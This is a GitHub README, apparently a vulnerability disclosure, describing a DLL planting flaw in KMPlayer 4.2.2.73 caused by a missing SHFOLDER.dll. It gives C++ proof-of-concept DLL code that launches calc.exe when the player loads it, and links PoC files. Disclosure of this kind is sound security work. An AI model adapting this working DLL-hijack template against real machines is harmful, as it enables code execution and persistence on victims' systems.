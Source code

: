 # KMPlayer_Poc

## The name of an affected Product
KMPlayer x32

## Affected Version
KMPlayer_4.2.2.73(Latest)

## Product Address: 
https://www.kmplayer.com/pc

## Description
SHFOLDER.dll is missing so an attacker can use a malicious dll with same name and can get a admin privileges and also perform a way of persistence on the victim machine.

## Vulnerability type
CWE-427: Uncontrolled Search Path Element

## DLL planting vulnerability type : 
Current Working Directory (CWD) DLL planting 

## Impact
An attacker could exploit this vulnerability by placing a malicious DLL file on the targeted system. This file will execute when the vulnerable application launches. A successful exploit could allow the attacker to execute arbitrary code on the targeted system with SYSTEM PRIVILEGES as well the attacker can maintain persistence on the target system.

## POC files address
https://drive.google.com/file/d/1bdYaDmtWhnjaHkzv3bZ4PUSMzDJ8JjSV/view?usp=sharing
```bash
kmp32# tree
.
├── KMPlayer_4.2.2.73.exe
├── KMPlayer_poc.mp4
└── SHFOLDER.dll

```

## Poc code
```C++
// dllmain.cpp
#include "pch.h"
#include <stdlib.h>

BOOL APIENTRY DllMain(HMODULE hModule,
    DWORD  ul_reason_for_call,
    LPVOID lpReserved
)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        system("calc.exe");
        break;
    case DLL_THREAD_ATTACH:
        break;
    case DLL_THREAD_DETACH:
        break;
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```
